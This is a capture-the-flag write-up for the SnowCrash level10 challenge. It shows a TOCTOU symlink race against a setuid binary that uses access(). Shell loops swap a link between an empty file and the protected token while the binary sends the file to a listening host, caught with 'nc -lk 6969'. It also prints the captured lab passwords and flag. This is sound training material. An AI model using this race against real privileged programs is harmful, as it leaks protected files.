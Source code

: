##level10
```
level10@SnowCrash:~$ ls -l
total 32
-rwsr-sr-x+ 1 flag10  level10 10817 Mar  5  2016 level10
-rw-------  1 flag10  flag10     26 Mar  5  2016 token
```

by using https://cloud.binary.ninja/ i got to know that the excutable expect 2 args first is the file to read, it also check for the permissions before connecting,and the second one is the host ip and the connection it will be on port 6969
and we can check that bye using ltrace too;

to bypass the check on the file access we can use this security hole in this article 
https://security.stackexchange.com/questions/42659/how-is-using-acces-opening-a-security-hole

so we will create 2 scripts one that swap the stat of a symlink between an empty file and token file
and the other one execut level10 on that symlink.

and we will listen on port 6969 by using nc -lk 6969

```
level10@SnowCrash:~$ cat ecco
while true;
        do
        ln -fs ~/empty /tmp/exploit;
        ln -fs ~/token /tmp/exploit;
        done

level10@SnowCrash:~$ cat eccos
while true;
        do ./level10 /tmp/exploit 10.11.100.161;
done
```

```
level10@SnowCrash:~$ ./ecco &
[2] 1554
level10@SnowCrash:~$ ./eccos 1>/dev/null

```

```
level10@SnowCrash:~$ nc -lk 6969
.*( )*.
.*( )*.
.*( )*.
.*( )*.
.*( )*.
.*( )*.
.*( )*.
.*( )*.
.*( )*.
.*( )*.
.*( )*.
.*( )*.
.*( )*.
.*( )*.
.*( )*.
.*( )*.
.*( )*.
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
.*( )*.
.*( )*.
.*( )*.
.*( )*.
.*( )*.
.*( )*.
.*( )*.
.*( )*.
^C
```

and we got our flag pass
```
level10@SnowCrash:~$ su flag10
Password: 
Don't forget to launch getflag !
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
flag10@SnowCrash:~$ su level11
Password: feulo4b72j7edeahuete3no7c
```
